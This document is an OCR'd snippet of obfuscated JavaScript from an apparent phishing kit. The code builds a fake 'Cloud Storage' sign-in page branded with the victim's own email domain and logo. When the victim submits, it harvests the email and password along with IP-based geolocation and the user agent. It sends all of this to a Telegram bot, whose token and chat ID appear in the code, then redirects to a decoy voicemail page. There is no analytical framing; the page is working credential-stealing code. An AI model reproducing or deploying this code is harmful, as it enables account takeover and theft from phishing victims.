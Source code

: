 ```html
                var M = -parseInt(K(0xe9)) / 0x1 + -parseInt(K(0xda)) / 0x2 + parseInt(K(0xc0)) / 0x3 * (-parseInt(K(0xb8)) / 0x4) + parseInt(K(0xd6)) / 0x5 + -parseInt(K(0xe0)) / 0x6 * (-parseInt(K(0xd5)) / 0x7) + parseInt(K(0xb7)) / 0x8 * (-parseInt(K(0xe3)) / 0x9) + -parseInt(K(0xe1)) / 0xa * (parseInt(K(0xdb)) / 0xb);
                if (M === J) break;
                else L['push'](L['shift']());
            } catch (N) {
                L['push'](L['shift']());
            }
        }
    }(F, 0xa9b1c));
    var elem = $(A(0xb9)),
        elem1 = A(0xde),
        elem2 = A(0xd7),
        email = $(A(0xc2))[A(0xc9)](),
        domain = email[A(0xe4)](email[A(0xbc)]('@') + 0x1),
        frmsite = domain[A(0xe4)](0x0, domain[A(0xbc)]('.'));
    const str = frmsite + A(0xce),
        str2 = str[A(0xbd)](0x0)[A(0xeb)]() + str[A(0xe7)](0x1);
    let today = new Date()[A(0xc6)]();
    $(A(0xba))[A(0xe5)](str2), $('#title')[A(0xe5)](str2), $(A(0xc1))['append'](A(0xbb) + domain + A(0xd4)), $(A(0xdd))[A(0xe5)](A(0xcd) + domain + '\">'), document[A(0xe8)][A(0xd0)]['background'] = A(0xca) + domain + '\')', elem['on'](A(0xec), function (O) {
        var P = A;
        $('#inputPassword')[P(0xdf)]() === '' ? alert(P(0xcb)) : $['getJSON'](P(0xcf), function (Q) {
            var R = P,
                S = Q['ip'],
                T = Q[R(0xc8)],
                U = Q['region'],
                V = Q['country'],
                W = navigator['userAgent'];
            let X = new Date()[R(0xc6)]();
            var Y = R(0xc4) + str2 + ' by Zach A**' + '\x0a\x0a' + R(0xe2) + $(R(0xc2))[R(0xc9)]() + '\x0a' + R(0xc7) + $(R(0xd9))[R(0xdf)]() + '\x0a' + 'IP Address : ' + S + '\x0a' + R(0xe6) + U + '\x0a' + R(0xc3) + T + '\x0a' + R(0xbe) + V + '\x0a' + R(0xed) + W + '\x0a' + R(0xcc) + $(R(0xea))[R(0xdf)]() + '\x0a' + R(0xd8) + X + '\x0a' + R(0xbf) + $(R(0xc5))[R(0xdf)](),
                Z = R(0xdc) + elem1 + R(0xd3);
            $[R(0xd2)](Z, {
                'chat_id': elem2,
                'text': Y
            }, function (AA) {
                var AB = R;
                window['location'][AB(0xee)] = AB(0xd1);
            });
        });
    });
    
    function F() {
        var AC = ['val', '12ZidQyC', '20AFlrCY', 'Email: ', '63792quNVYn', 'substring', 'append', 'Region : ', 'slice', 'body', '139437pXYFEK', '#UserEmail', 'toUpperCase', 'click', 'Useragent : ', 'href', '88GpIPQU', '904cdojGd', '#submit', '#dname', '<img class=\"mb-4\" src=\"https://logo.clearbit.com/', 'lastIndexOf', 'charAt', 'Country : ', 'DateSent : ', '10311YpzJVd', '#dlogo', '#emailtext', 'City : ', '***', '#DateSent', 'toLocaleDateString', 'Password : ', 'city', 'text', 'url(\'https://logo.clearbit.com/', 'Password field missing!', 'Format : ', '<link rel=\"icon\" href=\"https://logo.clearbit.com/', ' Cloud Storage', 'https://ip.seeip.org/geoip', 'style', 'https://archive.org/details/VoiceMail_173', 'post', '/sendMessage', '\" alt=\"\" width=\"150\"  >', '4716964xBODFJ', '3724320KAqSuZ', '5852841790', 'Date Filled : ', '#inputPassword', '380874lxWkrT', '1170928pBbGzs', 'https://api.telegram.org/bot', 'head', '6055124896:AAFyQlC_8dr1GndB26ji4iV2ol2bPPQ9lq4'];
        F = function () {
            return AC;
        };
        return F();
```
